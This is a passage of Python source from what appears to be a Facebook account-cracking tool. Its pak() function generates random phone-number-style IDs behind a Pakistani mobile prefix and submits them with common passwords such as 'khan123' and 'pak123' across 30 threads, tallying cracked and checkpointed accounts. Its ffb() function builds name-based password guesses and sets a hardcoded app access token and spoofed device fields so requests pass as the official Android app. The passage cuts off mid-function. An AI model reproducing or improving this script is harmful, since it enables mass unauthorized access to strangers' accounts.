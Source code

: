         except requests.exceptions.ConnectionError:
                print('\n NO INTERNET CONNECTION ...')
                exit()
def pak():
                user=[]
                clear()
                print('\033[1;31m CODE EXAMPLE : 0306,0315,0335,0345')
                code = input('\033[1;37m PUT CODE: ')
                try:
                        limit = int(input('\033[1;31m EXAMPLE : 2000, 3000, 5000, 10000\n\033[1;37m PUT LIMIT : '))
                except ValueError:
                        limit = 5000
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(7))
                        user.append(nmp)
                with tred(max_workers=30) as TRT:     
                        clear()
                        
                        tl = str(len(user))
                        print('[+] Total accounts: \033[1;97m'+tl)
                        print('[+] Select code: \033[1;97m '+code)
                        print('[+] Process has been started \033[1;97m')
                        linex()
                        for psx in user:
                                ids = code+psx
                                passlist = [psx,ids,'khankhan','malik123','kingkhan','baloch123','pak123','khan123']
                                TRT.submit(rndm,ids,passlist)
                print('\033[1;37m')
                linex()
                print(' THE PROCESS HAS COMPLETED')
                print(' TOTAL OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                linex()
                input(' PRESS ENTER TO BACK ')
                os.system('python heros.py')
def ffb(ids,names,passlist):
        try:
                global ok,loop,sim_id
                sys.stdout.write('\r\r\033[1;37m [HEROES] %s|\033[1;37mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                fn = names.split(' ')[0]
                try:
                        ln = names.split(' ')[1]
                except:
                        ln = fn
                for pw in passlist:
                        pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        fbav = f'{random.randint(111,999)}.0.0.{random.randint(11,99)}.{random.randint(111,999)}'
                        fbbv = str(random.randint(111111111,999999999))
                        android_version = device['android_version']
                        model = device['model']
                        build = device['build']
                        fblc = device['fblc']
                        fbcr = sim_id
                        fbmf = device['fbmf']
                        fbbd = device['fbbd']
                        fbdv = device['fbdv']
                        fbsv = device['fbsv']
                        fbca = device['fbca']
                        fbdm = device['fbdm']
                        fbfw = '1'
                        fbrv = '0'
                        fban = 'FB4A'